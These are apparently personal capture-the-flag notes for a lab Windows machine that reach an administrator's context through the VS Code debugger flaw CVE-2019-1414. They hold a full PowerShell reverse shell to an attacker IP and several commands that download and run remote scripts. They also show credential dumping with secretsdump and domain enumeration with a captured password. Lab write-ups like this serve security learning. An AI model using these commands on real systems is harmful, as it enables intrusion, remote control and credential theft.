 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



Let's get back to script and see what we can do there
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

![[Pasted image 20240924225659.png]]

So what's the thing that stands outttttttttttttttttttt.
Microsoft VS Code            C:\Program Files\Microsoft VS Code
![[Pasted image 20240924233613.png]]

```
C:\Program Files\Microsoft VS Code
```

```
(get-command .\Code).version
```
![[Pasted image 20240925001315.png]]

CVE
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-1414

Will follow this blog
https://iwantmore.pizza/posts/cve-2019-1414.html


```
Invoke-WebRequest -Uri http://10.10.16.6/cefdebug/cefdebug.exe -OutFile cefdebug.exe
```
![[Pasted image 20240925160843.png]]
```
ws://127.0.0.1:40860/b4349ceb-188d-42a8-8c02-04d8145a3bf6
```

```
ws://127.0.0.1:64554/62f6a0f5-255e-4f13-a5aa-1e9cd4d3738b
```


Reverse Shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.6',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();
```

Payload
```
.\cefdebug.exe --url ws://127.0.0.1:47143/689fb61d-e26a-485a-8eee-4b88bef946a5 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6//shell02.ps1')"
```

Invoke-WebRequest -Uri http://10.10.16.6/cefdebug/cefdebug.exe -OutFile cefdebug.exe

```
.\cefdebug.exe --url ws://127.0.0.1:47143/689fb61d-e26a-485a-8eee-4b88bef946a5 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.6/shell02.ps1\')')"
```

Finally it worked and guess what i have written the reverse shell name wrong
![[Pasted image 20240925163812.png]]
![[Pasted image 20240925163826.png]]

![[Pasted image 20240925163846.png]]

Now we have to escalate from here.
```
Invoke-WebRequest -Uri http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1 -OutFile winPEASps1.ps1
```

